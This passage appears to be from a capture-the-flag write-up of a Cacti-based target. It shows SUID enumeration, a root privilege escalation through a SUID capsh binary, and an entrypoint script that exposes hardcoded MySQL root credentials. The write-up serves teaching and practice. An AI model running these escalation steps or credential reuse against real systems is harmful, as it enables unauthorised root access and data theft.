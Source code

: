 ### Privilege Escalation
We should still first check whether we can escalate our rights:
```
find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
-rwsr-xr-x 1 root root 88304 Feb  7  2020 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63960 Feb  7  2020 /usr/bin/passwd
-rwsr-xr-x 1 root root 52880 Feb  7  2020 /usr/bin/chsh
-rwsr-xr-x 1 root root 58416 Feb  7  2020 /usr/bin/chfn
-rwsr-xr-x 1 root root 44632 Feb  7  2020 /usr/bin/newgrp
-rwsr-xr-x 1 root root 30872 Oct 14  2020 /sbin/capsh
-rwsr-xr-x 1 root root 55528 Jan 20  2022 /bin/mount
-rwsr-xr-x 1 root root 35040 Jan 20  2022 /bin/umount
-rwsr-xr-x 1 root root 71912 Jan 20  2022 /bin/su
```

We have a SUID bit on the binary `/sbin/capsh`. According to [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/), we can abuse this to get root access:
```
/sbin/capsh --gid=0 --uid=0 --
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
But we can't find any flag on the system. Whether in a user directory, nor in the root directory.

### Further system enumeration
In the `/entrypoint.sh` we find some information related to a MySQL database, that is used by the Cacti application:
```
cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```
This information could be also found in the file `/var/www/html/include/config.php`.

We can log into the database with the given credentials.

